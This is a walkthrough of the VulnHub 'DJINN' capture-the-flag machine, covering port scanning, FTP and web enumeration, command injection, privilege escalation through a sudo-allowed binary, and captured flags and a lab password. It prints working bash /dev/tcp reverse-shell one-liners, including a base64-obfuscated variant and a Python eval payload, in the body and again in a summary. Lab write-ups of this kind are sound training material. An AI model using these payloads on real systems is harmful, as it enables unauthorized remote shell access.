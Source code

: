```yaml
---
categories: [vulnhub]
tags: [vulnhub,walkthrough,pentest]
---
```

# DJINN



## **Description ⤵️**


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing id command I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after many hardwork I got to know that for achiving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

.pyc file in `/home/sam/.pyc` After tranfering to attackers machine when I opened it I got to know this part →

```bash
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

proof.txt → `33eur2wjdmq80z47nyy4fx54bnlg3ibc`

---

# **Summery Notes →**

```bash
> **bash** -i >**&** **/**dev**/**tcp**/**10.0.2.10**/**4444 **0>&**1 
> **echo** YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== **|** base64 -d **|** **bash** 
> **sudo** -u sam **/**usr**/**bin**/**genie -cmd **whoami** 
> **eval** **(**'__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")'**)**
```

---